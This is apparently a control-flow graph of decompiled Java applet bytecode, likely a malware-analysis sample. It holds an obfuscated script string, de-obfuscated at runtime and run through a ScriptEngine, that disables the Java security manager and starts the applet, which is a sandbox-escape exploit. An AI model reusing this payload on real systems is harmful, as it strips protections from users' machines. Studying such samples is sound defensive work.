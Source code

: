 digraph "" {
    "r0 := @this: Efira"
    "new java.lang.String"
    "r0 := @this: Efira"->"new java.lang.String";
    "dup1.r"
    "new java.lang.String"->"dup1.r";
    "specialinvoke <java.lang.String: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.String: void <init>()>";
    "store.r r28"
    "specialinvoke <java.lang.String: void <init>()>"->"store.r r28";
    "push 0"
    "store.r r28"->"push 0";
    "store.i $r2"
    "push 0"->"store.i $r2";
    "load.i $r2"
    "store.i $r2"->"load.i $r2";
    "push 1"
    "load.i $r2"->"push 1";
    "ifcmpge.i new Men"
    "push 1"->"ifcmpge.i new Men";
    "new java.lang.StringBuilder"
    "ifcmpge.i new Men"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r28"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r28";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r28";
    "inc.i $r2 1"
    "store.r r28"->"inc.i $r2 1";
    "goto load.i $r2"
    "inc.i $r2 1"->"goto load.i $r2";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "new Men"
    "ifcmpge.i new Men"->"new Men";
    "store.r $r2"
    "new Men"->"store.r $r2";
    "load.r $r2"
    "store.r $r2"->"load.r $r2";
    "specialinvoke <Men: void <init>()>"
    "load.r $r2"->"specialinvoke <Men: void <init>()>";
    "specialinvoke <Men: void <init>()>"->"push 0";
    "store.i i3"
    "push 0"->"store.i i3";
    "load.i i3"
    "store.i i3"->"load.i i3";
    "load.i i3"->"push 1";
    "ifcmpge.i load.r $r2"
    "push 1"->"ifcmpge.i load.r $r2";
    "ifcmpge.i load.r $r2"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r28";
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r28";
    "inc.i i3 1"
    "store.r r28"->"inc.i i3 1";
    "goto load.i i3"
    "inc.i i3 1"->"goto load.i i3";
    "ifcmpge.i load.r $r2"->"load.r $r2";
    "fieldget <Men: javax.script.ScriptEngine jjwd>"
    "load.r $r2"->"fieldget <Men: javax.script.ScriptEngine jjwd>";
    "push \"v1uhrw2ar er1uhrw2ro1uhrw2r = ne1uhrw2w Er1uhrw2ro1uhrw2r(\\\"1uhrw2y er1uhrw2ro1uhrw2r\\\");th1uhrw2is.to1uhrw2Str1uhrw2in1uhrw2g = fu1uhrw2nc1uhrw2tion(){ ja1uhrw2va.la1uhrw2ng.Sy1uhrw2ste1uhrw2m.se1uhrw2tSe1uhrw2cur1uhrw2ityMana1uhrw2ger(nu1uhrw2ll);app1uhrw2let.st1uhrw2ar1uhrw2t();re1uhrw2tu1uhrw2rn \\\"ex1uhrw2plo1uhrw2it!\\\";};er1uhrw2r1uhrw2or.mess1uhrw2ag1uhrw2e = thi1uhrw2s;\""
    "fieldget <Men: javax.script.ScriptEngine jjwd>"->"push \"v1uhrw2ar er1uhrw2ro1uhrw2r = ne1uhrw2w Er1uhrw2ro1uhrw2r(\\\"1uhrw2y er1uhrw2ro1uhrw2r\\\");th1uhrw2is.to1uhrw2Str1uhrw2in1uhrw2g = fu1uhrw2nc1uhrw2tion(){ ja1uhrw2va.la1uhrw2ng.Sy1uhrw2ste1uhrw2m.se1uhrw2tSe1uhrw2cur1uhrw2ityMana1uhrw2ger(nu1uhrw2ll);app1uhrw2let.st1uhrw2ar1uhrw2t();re1uhrw2tu1uhrw2rn \\\"ex1uhrw2plo1uhrw2it!\\\";};er1uhrw2r1uhrw2or.mess1uhrw2ag1uhrw2e = thi1uhrw2s;\"";
    "push \"1uhrw2\""
    "push \"v1uhrw2ar er1uhrw2ro1uhrw2r = ne1uhrw2w Er1uhrw2ro1uhrw2r(\\\"1uhrw2y er1uhrw2ro1uhrw2r\\\");th1uhrw2is.to1uhrw2Str1uhrw2in1uhrw2g = fu1uhrw2nc1uhrw2tion(){ ja1uhrw2va.la1uhrw2ng.Sy1uhrw2ste1uhrw2m.se1uhrw2tSe1uhrw2cur1uhrw2ityMana1uhrw2ger(nu1uhrw2ll);app1uhrw2let.st1uhrw2ar1uhrw2t();re1uhrw2tu1uhrw2rn \\\"ex1uhrw2plo1uhrw2it!\\\";};er1uhrw2r1uhrw2or.mess1uhrw2ag1uhrw2e = thi1uhrw2s;\""->"push \"1uhrw2\"";
    "push \"1uhrw2\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "pop"->"push 0";
    "push 0"->"store.i i3";
    "store.i i3"->"load.i i3";
    "load.i i3"->"push 1";
    "ifcmpge.i load.r r0"
    "push 1"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r28";
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r28";
    "store.r r28"->"inc.i i3 1";
    "inc.i i3 1"->"goto load.i i3";
    "load.r r0"
    "ifcmpge.i load.r r0"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r2";
    "load.r $r2"->"fieldget <Men: javax.script.ScriptEngine jjwd>";
    "push \"er1uhrw2ro1uhrw2r\""
    "fieldget <Men: javax.script.ScriptEngine jjwd>"->"push \"er1uhrw2ro1uhrw2r\"";
    "push \"er1uhrw2ro1uhrw2r\""->"push \"1uhrw2\"";
    "push \"1uhrw2\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <Efira: javax.swing.JList entendes>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <Efira: javax.swing.JList entendes>";
    "fieldput <Efira: javax.swing.JList entendes>"->"push 0";
    "push 0"->"store.i $r2";
    "store.i $r2"->"load.i $r2";
    "load.i $r2"->"push 1";
    "push 1"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r28";
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r28";
    "store.r r28"->"inc.i $r2 1";
    "inc.i $r2 1"->"goto load.i $r2";
    "ifcmpge.i load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <Efira: javax.swing.JList entendes>"
    "load.r r0"->"fieldget <Efira: javax.swing.JList entendes>";
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"
    "fieldget <Efira: javax.swing.JList entendes>"->"virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
}
